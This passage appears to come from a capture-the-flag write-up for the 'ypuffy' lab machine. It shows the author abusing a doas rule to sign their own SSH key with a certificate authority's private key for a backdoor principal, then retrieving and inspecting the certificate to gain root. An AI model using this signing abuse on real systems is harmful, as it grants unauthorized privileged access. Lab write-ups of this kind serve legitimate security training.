     ypuffy$ chmod +r id_rsa_ypuffy_root.pub
    ypuffy$ ls -l id_rsa_ypuffy_root.pub
    -rwxr-xr--  1 alice1978  wheel  391 Feb  1 08:55 id_rsa_ypuffy_root.pub
    

Now, I’ll generate the cert:

    
    
    ypuffy$ doas -u userca /usr/bin/ssh-keygen -s /home/userca/ca -I 0xdf -n 3m3rgencyB4ckd00r -V +52w id_rsa_ypuffy_root.pub
    Signed user key id_rsa_ypuffy_root-cert.pub: id "0xdf" serial 0 for 3m3rgencyB4ckd00r valid from 2019-02-01T09:01:00 to 2020-01-31T09:02:19
    
    ypuffy$ ls -l id_rsa_ypuffy_root*
    -rw-r--r--  1 userca     wheel  1504 Feb  1 09:02 id_rsa_ypuffy_root-cert.pub
    -rwxr-xr--  1 alice1978  wheel   391 Feb  1 08:55 id_rsa_ypuffy_root.pub
    

Here’s the breakdown of the options I used with `ssh-keygen`:

  * `-s /home/userca/ca` \- Specifies that I want to sign a public key using the given CA private key.
  * `-I 0xdf` \- The identify associated with the certificate. In this case, it’s arbitrary. In an enterprise, they could use this to track who was assigned a given cert.
  * `-n 3m3rgencyB4ckd00r` \- The principles to be included in the certificate.
  * `-V +52w` \- Make this certificate good for 52 weeks.
  * `id_rsa_ypuffy_root.pub` \- the public key that will be associated with the certificate.

As the output shows, the command output a file ending in `-cert.pub`. The
original public key is unchanged.

#### scp Certificate

I can delete the public key here since I don’t need it anymore (I have a copy
on my host). I’ll need to get the certificate back. I could just copy/paste,
but I’ll use `scp`:

    
    
    root@kali# scp -i alice.pem alice1978@10.10.10.107:/tmp/id_rsa_ypuffy_root-cert.pub .
    id_rsa_ypuffy_root-cert.pub                             100% 1504    73.0KB/s   00:00
    

#### Examine Certificate / Keys

I can look at my certificate and keys using `ssh-keygen`. I’ll start by
getting the certificate information (`-L`) on the file:

    
    
    root@kali# ssh-keygen -L -f id_rsa_ypuffy_root-cert.pub 
    id_rsa_ypuffy_root-cert.pub:
            Type: ssh-rsa-cert-v01@openssh.com user certificate
            Public key: RSA-CERT SHA256:dWbA41JT/ytpdyy7lIKXaU/OQF6Rsl8XH7w7gG37fhI
            Signing CA: RSA SHA256:WCPFBuZqiubacS+hgAGylLHBjatuKa8zoWO2vFFycsg
            Key ID: "0xdf"
            Serial: 0
            Valid: from 2019-02-01T09:01:00 to 2020-01-31T09:02:19
            Principals: 
                    3m3rgencyB4ckd00r
            Critical Options: (none)
            Extensions: 
                    permit-X11-forwarding
                    permit-agent-forwarding
                    permit-port-forwarding
                    permit-pty
                    permit-user-rc
    